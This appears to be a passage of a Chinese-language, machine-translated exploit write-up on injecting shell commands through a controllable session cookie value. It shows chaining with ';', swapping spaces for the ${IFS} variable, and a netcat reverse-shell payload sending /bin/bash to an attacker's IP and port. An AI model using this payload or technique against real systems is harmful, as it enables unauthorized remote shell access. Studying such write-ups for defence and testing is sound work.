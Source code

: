 ### payload编写

在控制了会话值之后，我们需要使用它来在系统上执行代码，但这仍然是一个会话值，这意味着即使对它进行编码也不能在其中使用某些字符，因此我们需要编写“会话友好” ”，我们可以注入这些有效负载而无需强制应用程序为我们生成另一个Cookie值。

例如，如果我对字符串“ Hi Payload”进行编码并将其传递给应用程序，我将得到以下信息：

![image](../img/a7cb8a0b540ad0666aabdc57971ad226.png)

![image](../img/c3988ba5ab3ceb665496b8b1bfd9fa7e.png)

如我们所见，该应用程序为我们设置了一个cookie而不是我们注入的cookie，因此要解决此问题，我们需要使用自定义有效负载。

因此，为了避免使用空格，我想到了使用“ $ {IFS}” bash变量来表示空格的想法。

当然，我们需要使用“;”转义命令 如下所示：

```
;payload 
```

如果要使用netcat获得外壳，则需要创建以下有效负载：

```
;``nc``${IFS}-e${IFS}``/bin/bash``${IFS}ip${IFS}port 
```

让我们尝试一下，首先对有效负载进行编码，以查看结果：

![image](../img/621542e492d4704b8a7a9db9e1b6dc32.png)
